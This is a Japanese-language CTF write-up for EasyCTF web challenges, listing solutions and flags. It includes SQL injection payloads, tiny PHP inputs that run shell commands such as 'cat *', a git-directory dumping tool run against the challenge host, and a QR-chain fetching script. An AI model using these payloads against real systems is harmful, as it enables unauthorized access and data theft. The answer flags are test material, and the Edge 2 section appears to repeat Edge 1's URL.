 ### Cookie Blog (30)

Cookie に `flag=easyctf%7Byum_c00kies%21%21%21%7D` とありました。

```
yum_c00kies!!!
```

### TinyEval (100)

11 文字以下の任意の PHP コードを実行できるサービスでした。

echo\`ls\` で `Dockerfile flag_pnvgx1Qco7gx0ApLCUhH index.php` と表示されました。

echo\`cat \*\` でフラグが表示されました。

### Edge 1 (100)

http://edge1.web.easyctf.com/.git/ にアクセスしてみるといい感じでした。

[kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) を使って `rip-git.pl -v -u http://edge1.web.easyctf.com/.git/`、あとは `git log -p -5 | grep easyctf` でフラグが出てきました。

```
w3_ev3n_u53_git
```

### SQL Injection 1 (100)

username に `admin";--` でフラグが出てきました。

```
a_prepared_statement_a_day_keeps_the_d0ctor_away!
```

### SQL Injection 2 (150)

username に `" and 0 union select 1, "leet1337", 3, 10000;--` でフラグが出てきました。

```
reUNI0Ns_are_alw4ys_s0_em0t1onal!
```

### Edge 2 (200)

[kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) を使って `rip-git.pl -v -u http://edge1.web.easyctf.com/.git/`、あとは `git log -p -5 | grep easyctf` でフラグが出てきました。

```
hiding_the_problem_doesn't_mean_it's_gone!
```

### Web Tunnel (260)

```python
import requests
import subprocess
s = 'KjZqZwwKROwxELfzz6fN.png'
while True:
  url = 'http://tunnel.web.easyctf.com/images/' + s
  open(s, 'wb').write(requests.get(url).content)
  s = subprocess.check_output(['zbarimg', s])[8:].strip().decode('ascii') + '.png'
  print(s)
```
